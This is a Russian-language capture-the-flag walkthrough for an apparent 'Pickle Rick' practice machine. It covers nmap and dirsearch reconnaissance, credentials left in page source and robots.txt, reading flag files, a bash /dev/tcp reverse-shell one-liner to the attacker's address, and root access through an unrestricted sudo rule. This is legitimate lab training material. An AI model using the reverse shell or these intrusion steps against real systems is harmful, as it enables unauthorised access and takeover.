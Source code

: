 # Linux
## 10.10.180.32

## Сбор информации

### Nmap 
```
nmap -A 10.10.180.32

Nmap scan report for 10.10.180.32
Host is up (0.064s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:af:25:34:fc:4d:56:d6:ac:8d:63:fe:ae:02:f6:c2 (RSA)
|   256 8e:8d:57:b4:cb:5f:2c:e6:0a:f7:b7:2b:2c:a8:0b:b7 (ECDSA)
|_  256 c3:64:e3:1b:a6:82:c8:d1:54:c5:4b:63:da:6f:9e:5c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### dirsearch
```
dirsearch -x 403 -u 10.10.180.32


  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /Users/evgeniy/reports/_10.10.180.32/_25-04-24_19-59-20.txt

Target: http://10.10.180.32/

[19:59:20] Starting: 
[19:59:35] 301 -  313B  - /assets  ->  http://10.10.180.32/assets/          
[19:59:35] 200 -  587B  - /assets/
[19:59:46] 200 -  455B  - /login.php                                        
[19:59:54] 200 -   17B  - /robots.txt                                       
                                                                             
Task Completed
```

## Осмотр сайта 

Исследуя код главной страницы, находим имя пользователя, которое, понадобится в дальнейшем.

```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

В `http://10.10.180.32/robots.txt` находим набор символов. При использовании данной связки при логине на странице `http://10.10.180.32/login.php` получаем доступ к новой странице `portal.php`.

## 1/3

Введя в консоль `tac Sup3rS3cretPickl3Ingred.txt`, получаем первый ингредиент 

# Rev shell 

используя `bash -c 'bash -i >& /dev/tcp/10.23.88.153/9999 0>&1'` удачно получаем revshell

## 2/3

используя команду `tac /home/rick/second\ ingredients`, получаем второй ингредиент

## Повышение прав в системе

```
www-data@ip-10-10-180-32:/home/rick$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-10-180-32:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-180-32:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-180-32:/home/rick$ sudo su
sudo su
whoami 
root
```

## 3/3

используя команду `tac /root/3rd`, получаем третий, заключительный, ингредиент